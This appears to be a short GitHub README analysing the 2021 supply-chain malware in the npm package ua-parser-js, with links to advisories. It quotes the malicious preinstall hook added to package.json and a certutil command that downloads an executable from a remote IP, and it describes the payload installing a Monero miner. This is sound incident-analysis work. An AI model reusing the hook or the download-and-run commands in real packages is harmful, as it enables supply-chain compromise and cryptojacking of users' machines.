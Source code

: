 # ua-parser-vuln

## Data Sources:

- Read the diff here: https://my.diffend.io/npm/ua-parser-js/0.7.28/0.7.29#d2h-701945
- Virustotal: https://www.virustotal.com/gui/file/2a3acdcd76575762b18c18c644a745125f55ce121f742d2aad962521bc7f25fd/behavior/C2AE
- CISA Announcement: https://us-cert.cisa.gov/ncas/current-activity/2021/10/22/malware-discovered-popular-npm-package-ua-parser-js
- Advisory: https://github.com/advisories/GHSA-pjwm-rvh2-c87w
- Therecord: https://therecord.media/malware-found-in-npm-package-with-millions-of-weekly-downloads/

## Brief overview
Package.json file has the line:
 ""preinstall": "start /B node preinstall.js & node preinstall.js"," added,  calls the new attack scripts.

File preinstall.js looks to determine Windows, mac, linux, and call the correct next file

### Linux
On the linux side: It checks the server IP, if in the RU/UA/BY/KZ geo, does nothing. 
Else, it pulls down  jsextention from a remote IP in the Latvia GEO

### Windows:
1. Pulls down jsextension.exe  (Server serving is not responding)
2. Tries to curl it down
3. If that doesn work, tries wget
4. If that doesnt work, tries certutil
    it runs “certutil.exe -urlcache -f http://159.XXX.XXX.XXX/download/jsextension.exe jsextension.exe
    
5. Then attempts to pull down create.dll from citation<redaction>.at
    Currently at a russian IP address block
6. Then adds the execute to tasklist , to connect to pool.minexmr.****


